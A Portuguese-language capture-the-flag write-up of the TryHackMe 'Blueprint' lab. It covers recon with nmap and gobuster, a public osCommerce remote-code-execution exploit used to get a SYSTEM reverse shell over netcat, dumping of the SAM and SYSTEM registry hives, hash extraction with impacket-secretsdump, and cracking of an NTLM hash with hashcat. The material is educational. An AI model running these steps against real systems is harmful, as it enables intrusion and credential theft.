



# Blueprint Writeup

> [!NOTE] 
> **[EN]** This version of the writeup is in portuguese. Click [here]() or follow [this link (github)]() to go to the english version.

> **Link para o desafio CTF**: [https://tryhackme.com/room/blueprint](https://tryhackme.com/room/blueprint)
> 
> **Dificuldade:** `Fácil`
> 
> **Data de Resolução:** `2026/06/14`
## Sumário

> Link do writeup no github: [https://github.com/Luke0133/offsec-ctf/blob/main/CTFs/Blueprint/(PT-BR)%20Blueprint%20Writeup.md](https://github.com/Luke0133/offsec-ctf/blob/main/CTFs/Blueprint/(PT-BR)%20Blueprint%20Writeup.md)

- [Ferramentas Utilizadas](#ferramentas%20utilizadas)
- [Resolução do CTF](#Resolução%20do%20CTF)
	1. [Reconhecimento](#Reconhecimento)
	2. [Exploração](#Exploração)
	3. [Escalação de Privilégios](#Escalação%20de%20Privilégios)
	4. [Extra - Quebrar o hash NTLM  de "Lab"](#Extra%20-%20Quebrar%20o%20hash%20NTLM%20de%20Lab)
- [Conclusão](#Conclusão)
- [Referências](#Referências)
## Ferramentas Utilizadas

Para este CTF, foram utilizadas as seguintes ferramentas:
- [Nmap](https://nmap.org/)[^nmap]: ferramenta de exploração da internet, criada para escanear rapidamente redes de larga escala. O Nmap realiza diversas requisições para um IP para determinar quais hosts estão disponíveis naquela rede, quais serviços que eles oferecem (por exemplo, HTTP, ssh, ...), quais sistemas operacionais (e versões destes) estão utilizando dentre outras informações. Sendo uma ferramenta poderosa para a enumeração de serviços e fornecimento de informações básicas sobre os hosts de uma rede, dados essenciais para alguém que está tentando invadir um sistema, o Nmap é muito utilizado em situações de pentesting e geralmente faz parte do primeiro passo nos CTFs.
- [Gobuster](https://github.com/OJ/gobuster)[^gobuster]: ferramenta responsável por enumerar por força bruta diretórios e arquivos, detectar subdomínios DNS e hosts virtuais, dentre outras funções. Por ser de alta performance, o Gobuster é essencial para agilizar o processo de encontrar diretórios de sistemas, poupando o desgaste da pessoa invasora de procurá-los manualmente, sendo, portanto recomendado para CTFs e pentesting.
- [Netcat](http://www.stearns.org/nc/)[^netcat]: programa basico de Unix responsável por ler e escrever dados através de conexões de rede. Em um contexto de pentesting, o `netcat` é uma ótima ferramenta para criar conexões com os sistemas na rede e ter acesso a eles de forma remota, permitindo técnicas como a de reverse shell, muito importante também nos contextos de CTF.
- [hashcat](https://hashcat.net/)[^hashcat]: ferramenta de recuperação de senhas, usada para atacar algoritmos de hash. Ela pode ser usada em diversos modos, como força bruta (podendo ser auxiliado por uma máscara), lista de dicionário (como a lista de senhas vazada da RockYou[^rockyou]), dentre outros. 
- [searchsploit](https://www.exploit-db.com/searchsploit)[^searchsploit]: ferramenta de pesquisa da [Exploit Database](https://www.exploit-db.com)[^exploitdb] que permite buscar por CVEs e outras vulnerabilidades de forma offline pelo terminal. As Common Vulnerabilities and Exposures[^CVE] são referências públicas a vulnerabilidades de segurança e a  [Exploit Database](https://www.exploit-db.com)[^exploitdb] contém uma lista dessas vulnerabilidades, com descrições e modos de replicar. O `searchsploit`[^searchsploit] permite que o processo de busca seja feito rapidamente por meio do terminal e é muito utilizado em contextos de penetration tests e CTFs.
- [Impacket](https://github.com/fortra/impacket)[^impacket]: coleção de classes python focados no acesso de pacotes de rede. Por meio dessas classes, vários scripts podem ser feitos para extrair dados de sistemas, dentre eles o `impacket-secretsdump`, o qual permite extrair segredos de máquinas remotas (ou de forma local). 
## Resolução do CTF

O CTF Blueprint, disponível no TryHackMe, é um desafio de dificuldade fácil que requer a exploração de um sistema windows para achar a flag de root e o hash NTLM do usuário "Lab". Esse CTF envolveu o uso de uma vulnerabilidade do serviço osCommerce e o uso de ferramentas diferentes para obter hashes de usuários.

Após conectar-me ao VPN do TryHackMe, obtive acesso à maquina e iniciei o desafio. A estratégia usada foi dividida em duas partes:

1. [Reconhecimento](#Reconhecimento)
2. [Exploração](#Exploração)
3. [Escalação de Privilégios](#Escalação%20de%20Privilégios)
4. [Extra - Quebrar o hash NTLM  de "Lab"](#Extra%20-%20Quebrar%20o%20hash%20NTLM%20de%20Lab)

Para facilitar a entrada de argumentos, adicionei ao `etc/hosts` uma relação entre o IP da máquina vulnerável com um nome de domínio (`vul.net`). Com tudo preparado, comecei o reconhecimento.

### Reconhecimento

A primeira coisa que fiz para o reconhecimento da máquina-alvo foi uma enumeração da rede com o `nmap`[^nmap], executando:

```sh 
nmap vul.net -A -T5
```

em que `-T5` representa o template de temporização (de 0 a 5, quanto maior, mais rápido, ou seja, mais interações e menos discrição, o que não costuma ser um problema em CTFs básicos) e `-A` habilita a detecção de SO, detecção de versão, traceroute e scan de scripts. Dados relevantes da enumeração estão a seguir:

```bash
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-14 14:35 -0400
Warning: <TARGET_IP> giving up on port because retransmission cap hit (2).
Nmap scan report for vul.net (<TARGET_IP>)
Host is up (0.22s latency).
Not shown: 988 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 7.5
|_http-title: 404 - File or directory not found.
|_http-server-header: Microsoft-IIS/7.5
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.23 ((Win32) OpenSSL/1.0.2h PHP/5.6.28)
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
| http-methods: 
|_  Potentially risky methods: TRACE
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Bad request!
445/tcp   open  microsoft-ds Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB 10.3.23 or earlier (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Index of /
#[...]
```

em que percebi que o sistema era um servidor Windows, com as portas abertas sendo 80 e 8080 (dois serviços http), 135, 139 e 445 (para o serviço SMB), 443 (SSL) e 3306 (para o banco de dados mysql). Decidi enumerar ambos os serviços http com o `gobuster`[^gobuster]:

```sh
gobuster dir -u http://vul.net -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50   
```

Este comando busca os diretórios com a wordlist fornecida (`-w`, com uma wordlist contendo uma lista de diretórios mais comuns), no url fornecido (`-u`) e com as extensões fornecidas (`-x`, em que coloquei as mais comuns como php, html e txt), na quantidade de threads fornecida (`-t`, e, mais uma vez, discrição não é essencial nesse CTF, então o número escolhido foi alto para agilizar o processo). O resultado final obtido foi o seguinte:

```sh
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://vul.net
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              html,txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
Progress: 882232 / 882232 (100.00%)
===============================================================
Finished
===============================================================
```

O resultado acima não mostrou nenhuma página. Executando para a porta 8080, muitos diretórios foram listados, mas nada muito interessante para ser exposto aqui. Com isso, comecei a exploração.
### Exploração

Ao acessar `http://vul.net`, deparei-me com uma mensagem de erro:



Pelos resultados do `gobuster`[^gobuster] eu sabia que não havia nada de interessante para ser explorado nessa porta, então decidi ver o que havia em `http://vul.net:8080`:



Isso indicava um serviço do osCommerce[^osCommerce], na versão `2.3.4`. Usando o `seachsploit`[^seachsploit], consegui encontrar algumas vulnerabilidades:

```sh
$ searchsploit oscommerce 2.3.4  
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
osCommerce 2.3.4 - Multiple Vulnerabilities                                       | php/webapps/34582.txt
osCommerce 2.3.4.1 - 'currency' SQL Injection                                     | php/webapps/46328.txt
osCommerce 2.3.4.1 - 'products_id' SQL Injection                                  | php/webapps/46329.txt
osCommerce 2.3.4.1 - 'reviews_id' SQL Injection                                   | php/webapps/46330.txt
osCommerce 2.3.4.1 - 'title' Persistent Cross-Site Scripting                      | php/webapps/49103.txt
osCommerce 2.3.4.1 - Arbitrary File Upload                                        | php/webapps/43191.py
osCommerce 2.3.4.1 - Remote Code Execution                                        | php/webapps/44374.py
osCommerce 2.3.4.1 - Remote Code Execution (2)                                    | php/webapps/50128.py
---------------------------------------------------------------------------------- ---------------------------------
```

Tanto `44374`[^EDB-44374] e `50128`[^EDB-50128] pareciam interessantes, por envolverem execução remota de código. Porém, como o `44374`[^EDB-44374]  era um exploit verificado, considerei pertinente começar testando-o. O exploit se baseia em uma vulnerabilidade em que, se o diretório `/install/` não fosse removido, seria possível reinstalar essa página sem autenticação, de modo que se tornava possível a injeção de código ao arquivo de configuração de instalação e executá-lo. Para funcionar o script python, tive que alterar as variáveis de url base e url alvo para condizerem com o url do CTF (ip, porta e versão do oscommerce). Além disso, alterei o payload com o script php para shell reversa[^reverseshell] em um sistema windows (disponibilizado por Dhayalanb[^revwinphp], em que apenas foi necessário alterar o ip para ser o da minha máquina) e, abrindo uma escuta com o `netcat`[^netcat], executei o script e consegui acesso à máquina:

```sh
netcat -lnvp 1234
listening on [any] 1234 ...
connect to [<MY_IP>] from (UNKNOWN) [<TARGET_IP>] 49607
b374k shell : connected

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes>whoami 
whoami
nt authority\system
```

Ótimo! Já tenho privilégios de administrador.
### Escalação de Privilégios

Como o usuário provido pela shell reversa já era o administrador, listei os conteúdos de seu diretório:

```sh
C:\Users\Administrator\Desktop dir
 dir
 Volume in drive C has no label.
 Volume Serial Number is 14AF-C52C

 Directory of C:\Users\Administrator\Desktop

11/27/2019  07:15 PM    <DIR>          .
11/27/2019  07:15 PM    <DIR>          ..
11/27/2019  07:15 PM                37 root.txt.txt
               1 File(s)             37 bytes
               2 Dir(s)  19,160,203,264 bytes free
```

Assim, encontrei a flag de root, `<ROOT_FLAG>`, presente em `root.txt.txt`:

```sh
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\Users\Administrator\Desktop

07/25/2020  08:24 AM    <DIR>          .
07/25/2020  08:24 AM    <DIR>          ..
07/25/2020  08:25 AM                35 root.txt
               1 File(s)             35 bytes
               2 Dir(s)  20,708,499,456 bytes free

C:\Users\Administrator\Desktop>more root.txt.txt
more root.txt.txt
<ROOT_FLAG>
```

e finalizei o CTF.
### Extra - Quebrar o hash NTLM de "Lab"

O CTF também pedia para quebrar o hash NTLM do usuário `Lab`. Comecei salvando cópias dos registradores SAM e SYSTEM em um diretório acessível ao osCommerce:

```sh
C:\Users\Administrator\Desktop>reg save hklm\sam C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes\sam.save
reg save hklm\sam C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes\sam.save
The operation completed successfully.

C:\Users\Administrator\Desktop>reg save hklm\system C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes\system.save
reg save hklm\system C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes\system.save
The operation completed successfully.
```

E consegui baixar os arquivos diretamente à minha máquina, acessando o site:



Usando o `impacket-secretsdump`, do conjunto de scripts `python3-impacket`[^impacket], que é capaz de encontrar hashes escondidas em arquivos de um sistema:

```sh
impacket-secretsdump -sam sam.save -system system.save LOCAL 
```

Com o comando acima, forneci os arquivos SAM e SYSTEM necessários para fazer o dump de hashes de usuários e indiquei que estão em minha máquina (LOCAL). O resultado revelou os seguintes hashes

```sh
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x147a48de4a9815d2aa479598592b086f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:549a1bcb88e35dc18c7a0b0168631411:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Lab:1000:aad3b435b51404eeaad3b435b51404ee:30e87bf999828446a1c1209ddde4c450:::
[*] Cleaning up... 
```

Sabendo que essas informações são o nome do usuário, RID, hash LM e hash NTLM, peguei o hash NTLM de `Lab`, `30e87bf999828446a1c1209ddde4c450`, e, com o seguinte comando do `hashcat`[^hashcat]:

```bash
hashcat -a 0 -m 1000 '30e87bf999828446a1c1209ddde4c450' /usr/share/wordlists/rockyou.txt
```

em que `-a` indica o modo de ataque (em todos os casos fiz ataques com dicionário, que é o argumento `0`), `-m` indica o tipo do hash (nesse caso, 1000, que é NTLM) e a wordlist escolhida (`rockyou.txt`[^rockyou]). O resultado obtido foi `<LAB_NTLM>`:

```sh
#[...]
30e87bf999828446a1c1209ddde4c450:<LAB_NTLM>                    

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1000 (NTLM)
Hash.Target......: 30e87bf999828446a1c1209ddde4c450
#[...]
```
## Conclusão

O CTF blueprint proporcionou a exploração de serviços Windows a partir de uma vulnerabilidade do serviço osCommerce. Por meio de um exploit, foi possível criar uma shell reversa e entrar no sistema, já com privilégios de administrador, e encontrar a flag de root do CTF. Além disso, tendo privilégios especiais, consegui extrair arquivos dos registradores SAM e SYSTEM, dos quais foi possível obter o hash NTLM do usuário "Lab", quebrando-o facilmente e concluindo o CTF.
## Referências

[^nmap]: Nmap: [https://nmap.org/](https://nmap.org/)
[^gobuster]: Gobuster: [https://github.com/OJ/gobuster](https://github.com/OJ/gobuster)
[^netcat]: Netcat: [http://www.stearns.org/nc/](http://www.stearns.org/nc/)
[^hashcat]: Hahscat: [https://hashcat.net/](https://hashcat.net/)
[^rockyou]: RockYou: Wordlist `rockyou.txt`: [https://weakpass.com/wordlists/rockyou.txt](https://weakpass.com/wordlists/rockyou.txt)
[^searchsploit]: Searchsploit: [https://www.exploit-db.com/searchsploit](https://www.exploit-db.com/searchsploit)
[^exploitdb]: Exploit Database (Exploit-DB): [https://www.exploit-db.com](https://www.exploit-db.com)
[^CVE]: Sobre CVEs: [https://en.wikipedia.org/wiki/Common_Vulnerabilities_and_Exposures](https://en.wikipedia.org/wiki/Common_Vulnerabilities_and_Exposures)
[^impacket]: Impacket: [https://github.com/fortra/impacket](https://github.com/fortra/impacket)
[^osCommerce]: Site do osCommerce: https://www.oscommerce.com/
[^EDB-44374]: Remote Code Execution (44374): [https://www.exploit-db.com/exploits/44374](https://www.exploit-db.com/exploits/44374)
[^EDB-50128]: Remote Code Execution (2) (50128) : [https://www.exploit-db.com/exploits/50128](https://www.exploit-db.com/exploits/50128)
[^reverseshell]: Sobre reverse shells: [https://en.wikipedia.org/wiki/Shell_shoveling](https://en.wikipedia.org/wiki/Shell_shoveling)
[^revwinphp]: Código para reverse shell PHP no Windows feito por Dhayalanb: [https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php](https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php)https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php